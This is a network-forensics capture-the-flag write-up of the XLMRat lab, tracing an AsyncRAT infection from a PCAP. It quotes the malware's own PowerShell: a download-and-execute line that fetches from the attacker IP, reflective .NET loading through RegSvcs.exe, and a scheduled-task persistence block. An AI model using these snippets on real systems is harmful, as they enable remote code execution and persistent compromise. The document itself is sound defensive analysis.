

## Overview

XLMRat is a compact network-forensics lab where the whole compromise chain is visible in one PCAP: a host downloads an obfuscated script, that script pulls a fake image, the fake image turns out to be PowerShell, and the PowerShell reconstructs and launches a .NET malware payload.

Official challenge: [CyberDefenders XLMRat](https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat)



The important part of this lab is not just answering the questions. The better workflow is to build the chain in order:

- find the first suspicious download,
- deobfuscate the script that caused the next download,
- carve the second-stage content,
- recover the embedded executable,
- use file metadata and reputation results to classify it,
- map the post-compromise behavior to execution, persistence, and C2 techniques.

## Case Summary

| Field | Value |
|---|---|
| Victim IP | `10.1.9.101` |
| Attacker IP | `45.126.209.4` |
| Initial HTTP port | `222` |
| C2 port | `8808` |
| First script | `/xlm.txt` |
| Second-stage URL | `http://45.126.209.4:222/mdm.jpg` |
| C2 domain | `madmrx.duckdns.org` |
| Payload SHA256 | `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` |
| Family label | `AsyncRAT` |

## PCAP Triage

I started with the HTTP requests because cleartext web traffic usually exposes the initial delivery chain faster than packet-by-packet browsing.

```sh
tshark -r 236-XLMRat.pcap -Y http.request \
  -T fields \
  -e frame.number -e frame.time_relative -e ip.src -e ip.dst \
  -e http.request.method -e http.host -e http.request.uri
```

The PCAP contains two very loud HTTP requests:



| Frame | Time | Source | Destination | Request |
|---:|---:|---|---|---|
| `4` | `0.295141` | `10.1.9.101` | `45.126.209.4` | `GET /xlm.txt` |
| `12` | `1.585563` | `10.1.9.101` | `45.126.209.4` | `GET /mdm.jpg` |

The response metadata already looks suspicious:

| Frame | Response | Content-Type | Length |
|---:|---|---|---:|
| `7` | `200 OK` | `text/plain` | `1974` |
| `344` | `200 OK` | `image/jpeg` | `431208` |

The second response claims to be an image, but the stream is readable PowerShell, not JPEG data.



The same infrastructure also answers the lab's hosting-provider question. A lookup for `45.126.209.4` maps the organization and ISP to ReliableSite.net LLC.



## Stage 1: VBScript Loader

The first object, `xlm.txt`, is a VBScript loader. It splits a PowerShell expression into tiny string fragments, joins them, and launches it with `WScript.Shell`.

After rebuilding the fragments, the payload becomes:

```powershell
[BYTe[]];
$A123='IeX(NeW-OBJeCT NeT.W';
$B456='eBCLIeNT).DOWNLO';
[BYTe[]];
$C789='VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING');
[BYTe[]];
IeX($A123+$B456+$C789)
```

Normalized, that is simply:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://45.126.209.4:222/mdm.jpg')
```

So the first stage does not contain the full malware. Its job is to hide the URL and execute whatever comes back from `mdm.jpg`.

## Stage 2: Fake JPG PowerShell

The `mdm.jpg` object is PowerShell with three interesting jobs:

- rebuild a PE file from hex strings,
- load and invoke it reflectively,
- drop helper scripts under `C:\Users\Public`.

The PE reconstruction is visible because the script starts with an `MZ` header encoded as underscore-separated hex bytes.



Saving the decoded bytes gives the recovered executable.



The local hash confirms the payload:

```sh
sha256sum download.dat
```

```text
1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798  download.dat
```



The file command also tells us what kind of payload we are dealing with:

```text
PE32 executable for MS Windows 4.00 (GUI), Intel i386 Mono/.Net assembly, 3 sections
```

## Reflective Execution

The payload is not simply written to disk and double-clicked. The script loads one embedded .NET assembly into memory and uses it to execute the second PE through a LOLBin path.

The key execution pattern is:

```powershell
$Fu = [Reflection.Assembly]::Load($pe)
$NK = $Fu.GetType('NewPE2.PE')
$MZ = $NK.GetMethod('Execute')
$AC = 'C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe'
$VA = @($AC, $NKbb)
$EY = $MZ.Invoke($null, [object[]] $VA)
```

`RegSvcs.exe` is useful to the attacker because it is a Microsoft-signed .NET utility. Here it is abused as the host process for stealthy .NET execution.



## Dropped Files and Persistence

The script writes three files into `C:\Users\Public`:

- `Conted.ps1`
- `Conted.bat`
- `Conted.vbs`



The flow is layered:

- `Conted.vbs` uses `WScript.Shell` to run a file hidden.
- `Conted.bat` starts `powershell.exe` with `-NoProfile`, `-WindowStyle Hidden`, and `-ExecutionPolicy Bypass`.
- `Conted.ps1` contains the actual reflective loader content.

The script then registers a scheduled task named `Update Edge` that runs every two minutes:

```powershell
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
$taskDefinition = $scheduler.NewTask(0)
$trigger = $taskDefinition.Triggers.Create(1)
$trigger.Repetition.Interval = "PT2M"
$action = $taskDefinition.Actions.Create(0)
$action.Path = "C:\Users\Public\Conted.vbs"
$taskFolder.RegisterTaskDefinition("Update Edge", $taskDefinition, 6, $null, $null, 3)
```

That gives the malware persistence even if the initial process dies.



## C2 Traffic

After the payload stage, the victim performs a DNS lookup:

```text
10.1.9.101 -> 10.1.9.1  A? madmrx.duckdns.org
10.1.9.1   -> 10.1.9.101  madmrx.duckdns.org A 45.126.209.4 ...
```

Shortly after that, the victim opens a long TLS session to the same attacker infrastructure:

| Frame | UTC Time | Event |
|---:|---|---|
| `350` | `2024-01-09 17:29:48` | DNS query for `madmrx.duckdns.org` |
| `355` | `2024-01-09 17:29:49` | TLS Client Hello to `45.126.209.4:8808` |

The TCP conversation summary makes the C2 session stand out:

```text
10.1.9.101:49723 <-> 45.126.209.4:8808
1199 frames, 133 kB, duration 624.6773 seconds
```

That long encrypted conversation is consistent with a RAT beacon/control channel after successful execution.

## Malware Classification

Uploading the recovered executable hash to VirusTotal gives a strong malicious verdict. The screenshot shows `61/71` engines flagging the file, with a popular threat label of `trojan.asyncrat/msil`.



The Details tab gives the timestamp and confirms the file type:

- SHA256: `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798`
- File type: Win32 EXE / .NET executable
- Creation time: `2023-10-30 15:08:44 UTC`



Alibaba labels the sample as:

```text
Backdoor:MSIL/AsyncRat.a2786761
```

So the family answer is `AsyncRAT`.

## Timeline

| Time UTC | What happened |
|---|---|
| `2024-01-09 17:27:27` | Victim requests `/xlm.txt` from `45.126.209.4:222`. |
| `2024-01-09 17:27:29` | Victim requests `/mdm.jpg`, the PowerShell second stage. |
| `2024-01-09 17:29:48` | Victim resolves `madmrx.duckdns.org`. |
| `2024-01-09 17:29:49` | Victim starts TLS communication with `45.126.209.4:8808`. |
| `2024-01-09 17:40:13` | Capture ends while encrypted C2 traffic is still present. |

## MITRE ATT&CK Mapping

| Technique | Evidence |
|---|---|
| `T1059.001` PowerShell | `powershell.exe -NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass` |
| `T1059.005` VBScript | `WScript.Shell` launches `Conted.bat` through `Conted.vbs`. |
| `T1105` Ingress Tool Transfer | Download of `/mdm.jpg` from `45.126.209.4:222`. |
| `T1027` Obfuscated Files or Information | VBScript string fragmentation and fake `.jpg` extension. |
| `T1127` Trusted Developer Utilities Proxy Execution | `RegSvcs.exe` used as the .NET execution host. |
| `T1053.005` Scheduled Task | Scheduled task `Update Edge` repeats every two minutes. |
| `T1573` Encrypted Channel | TLS session to `45.126.209.4:8808`. |
| `T1583.001` Domain Infrastructure | Dynamic DNS domain `madmrx.duckdns.org`. |

## Final Answers

| Question | Answer |
|---|---|
| First malware-stage URL | `http://45.126.209.4:222/mdm.jpg` |
| Hosting provider | `reliableSite.net` |
| Malware executable SHA256 | `1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798` |
| Alibaba family label | `asyncrat` |
| Malware creation timestamp | `2023-10-30 15:08` |
| LOLBin full path | `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` |
| Dropped files | `Conted.vbs,Conted.ps1,Conted.bat` |





## Indicators

```text
45.126.209.4
45.126.209.4:222
45.126.209.4:8808
madmrx.duckdns.org
http://45.126.209.4:222/xlm.txt
http://45.126.209.4:222/mdm.jpg
C:\Users\Public\Conted.ps1
C:\Users\Public\Conted.bat
C:\Users\Public\Conted.vbs
C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe
Update Edge
1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798
```

## Takeaways

The lab is a good reminder that file extensions and content types are weak evidence. The most valuable pivot was the HTTP stream: `mdm.jpg` looked like an image in the request but behaved like PowerShell when inspected.

The full attack chain is also a clean example of modern commodity malware delivery: script-based download, obfuscated PowerShell, reflective .NET loading, LOLBin execution, scheduled-task persistence, and encrypted C2. Once those pieces are connected, the AsyncRAT classification is no longer just a VirusTotal label; it matches the behavior seen in the capture.
